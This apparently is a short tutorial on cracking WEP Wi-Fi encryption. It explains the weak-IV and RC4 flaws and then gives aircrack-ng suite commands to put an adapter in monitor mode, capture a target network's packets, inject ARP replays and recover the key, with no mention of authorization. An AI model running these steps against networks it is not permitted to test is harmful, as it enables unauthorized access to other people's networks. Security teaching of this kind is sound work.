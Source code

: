 ### 🧠 WEP Cracking Basics

Cracking WEP (Wired Equivalent Privacy) involves exploiting **design flaws in WEP encryption**, particularly its **weak Initialization Vectors (IVs)** and **RC4 cipher implementation**.

Here’s a breakdown of the **basics**:

---

## 🔐 What is WEP?

* **WEP** is an outdated Wi-Fi security protocol introduced in 1997.
* Uses **RC4 stream cipher** for encryption.
* Combines:

  * A **secret key** (40 or 104 bits).
  * A **24-bit Initialization Vector (IV)** → sent in plaintext with every packet.
* WEP is **no longer secure** and has been replaced by WPA/WPA2.

---

## 🔎 Why Is WEP Crackable?

### 1. **Small IV Size**

* Only 24 bits → IVs **repeat frequently**, especially in busy networks.

### 2. **Weak RC4 Key Scheduling**

* Certain IVs (called **"weak IVs"**) **leak information** about the key when used with RC4.
* An attacker collects these IVs and **uses statistical analysis** to guess the key.

### 3. **IVs are Public**

* Every packet includes the IV in **cleartext**, making it easy to collect.

---

## 🛠️ Basic Tools Used

* **Kali Linux**: Pre-loaded with all required tools.
* **Aircrack-ng Suite**:

  * `airodump-ng`: Captures wireless packets.
  * `aireplay-ng`: Injects packets to generate traffic.
  * `aircrack-ng`: Cracks the WEP key using captured IVs.

---

## 📋 Steps to Crack WEP (Basics)

### 1. Put Wi-Fi Adapter in Monitor Mode

```bash
airmon-ng start wlan0
```

### 2. Capture Packets (and IVs)

```bash
airodump-ng wlan0mon
```

* Identify the target network (BSSID and channel).
* Then capture on a specific channel:

```bash
airodump-ng --bssid <BSSID> -c <channel> -w wep_capture wlan0mon
```

### 3. (Optional) Inject ARP Packets

Speeds up IV collection:

```bash
aireplay-ng --arpreplay -b <BSSID> -h <your_MAC> wlan0mon
```

### 4. Crack the WEP Key

```bash
aircrack-ng wep_capture-01.cap
```

---

## ✅ How Many Packets Are Needed?

* Around **10,000 to 100,000 IVs** for 64-bit WEP.
* Sometimes more for 128-bit.

